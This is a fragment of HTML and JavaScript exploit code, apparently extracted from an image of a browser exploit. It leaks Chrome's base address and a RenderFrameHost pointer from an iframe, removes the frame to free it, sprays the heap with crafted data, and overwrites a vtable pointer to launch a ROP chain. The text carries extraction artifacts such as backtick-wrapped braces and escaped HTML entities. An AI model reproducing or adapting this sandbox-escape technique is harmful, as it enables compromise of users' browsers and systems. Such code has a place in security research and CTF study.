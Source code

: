```
                        `}`
                    `}`
                    window.chromeBase = chromeBase;
                    window.renderFrameHost = renderFrameHost;
                    window.p = p;
                    return chromeBase!=0&amp;&amp;renderFrameHost!=0;
                `}`
                &lt;/script&gt;
                &lt;/body&gt;
            &lt;/html&gt;
            `
        document.body.appendChild(frame);
        return frame;
    `}`
    var frame = allocateFrame();


    frame.contentWindow.addEventListener("DOMContentLoaded",async ()=&gt;`{`
        if(!(await frame.contentWindow.leak()))`{`
            show("frame leak failed!");
            return;
        `}`
        if(frame.contentWindow.chromeBase!=chromeBase)`{`
            show("different chrome base!! wtf!")
            return;
        `}`    
        var frameAddr = frame.contentWindow.renderFrameHost;
//        show(frameAddr.toString(16));
        frameDataView.setBigInt64(0,frameAddr+0x10n,true); //vtable/ rax


        ropChainView[2] = frameAddr + 0x180n;
        var frameStore = frame.contentWindow.p;
        document.body.removeChild(frame);
        var arr = [];
        for(let i = 0;i&lt; 0x400;i++)`{`
            await p.storeData("bruh"+i,frameData8);
        `}`
          await frameStore.getData("yeet0",0);

    `}`);

`}`
main();
//document.addEventListener("DOMContentLoaded",()=&gt;`{`main();`}`);

        &lt;/script&gt;
    &lt;/body&gt;
&lt;/html&gt;
```
